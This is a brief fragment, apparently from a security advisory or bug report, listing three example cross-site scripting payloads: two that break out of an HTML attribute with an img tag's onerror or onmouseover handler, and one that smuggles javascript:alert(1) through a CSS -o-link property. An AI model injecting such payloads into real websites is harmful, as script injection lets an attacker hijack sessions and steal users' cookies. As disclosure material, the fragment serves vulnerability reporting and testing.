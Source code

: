 
Example payload 1:
```
"><img src="x" onerror="prompt(cookie)">
```

Example payload 1b:
```
"><img src="x" onmouseover="alert(document.domain)">
```

Example Payload 2:
```
#red;-o-link:\u0027\u003Cjavascript:alert(1)\u003E\u0027;-o-link-source:current; testit`
```
